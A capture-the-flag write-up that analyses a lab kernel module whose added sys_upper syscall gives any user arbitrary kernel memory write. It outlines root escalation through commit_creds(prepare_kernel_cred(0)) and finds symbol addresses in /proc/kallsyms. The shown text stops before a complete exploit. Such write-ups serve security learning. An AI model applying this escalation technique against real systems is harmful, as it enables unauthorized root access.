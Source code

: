 # syscall writeup by agam

### In the given syscall.c code, we can see that they add a new syscall named sys_upper to the syscall_table. This syscall essentially converts any string to uppercase.

```c
static int __init initmodule(void ){
	sct = (unsigned int**)SYS_CALL_TABLE;
	sct[NR_SYS_UNUSED] = sys_upper;
	printk("sys_upper(number : 223) is added\n");
	return 0;
}
```
# INDEED? :D


### By inspecting the syscall code further, we can see that essentially, any user has read/write permissions in the kernel, indicated by a 0x20 offset ☠.
```c
asmlinkage long sys_upper(char *in, char* out) {
	int len = strlen(in);
	int i;
	for(i=0; i<len; i++){
		if(in[i] >= 0x61 && in[i] <= 0x7a){
			out[i] = in[i] - 0x20;
		}
		else{
			out[i] = in[i];
		}
	}
	return 0;
}
```

## On the host, we can see that the kernel module has already been loaded.
```bash
$ lsmod
m 663 0 - Live 0x7f000000 (PO)

$ cat /proc/kallsyms | grep sys_upper
7f000000 t sys_upper    [m]
```

## To gain privileges, we need to change the process privileges and commit them. This can be achieved with this line of code:
```c
commit_creds(prepare_kernel_cred(0))
```

### Where "prepare_kernel_cred" is a func that creates a struct which represents the credentials of a process in the kernel. By passing 0 as an argument, you're essentially asking the kernel to prepare credentials for root. This function allocates and initializes a cred structure with elevated privileges.
```c
struct cred *prepare_kernel_cred(struct task_struct *daemon)
{
	const struct cred *old;
	struct cred *new;

    ...

	old = get_task_cred(daemon);

	*new = *old;
	new->non_rcu = 0;
	atomic_long_set(&new->usage, 1);
	get_uid(new->user); 
	get_user_ns(new->user_ns);
	get_group_info(new->group_info);

    ...
}
``` 


### And "commit_creds" is a function that is used to replace the credentials of the current process with the credentials provided as an argument. It effectively changes the process's security context. By passing the result of prepare_kernel_cred(0) as an argument to commit_creds(), you're replacing the current process's credentials with those of the root privileges.

## Let's check the addresses of those functions inside of /proc/kallsyms:
```bash
$ cat /proc/kallsyms | grep sys_call_table
>>> 8000e348 T sys_call_table <<<
```
```bash
    $ cat /proc/kallsyms | grep prepare_kernel_cred
    >>> 8003f924 T prepare_kernel_cred <<<
    80447f34 r __ksymtab_prepare_kernel_cred
    8044ff8c r __kstrtab_prepare_kernel_cred
```
```bash
    $ cat /proc/kallsyms | grep creds
    8003f3d8 T override_creds
    8003f44c T prepare_creds
    8003f51c T revert_creds
    >>> 8003f56c T commit_creds <<<
```
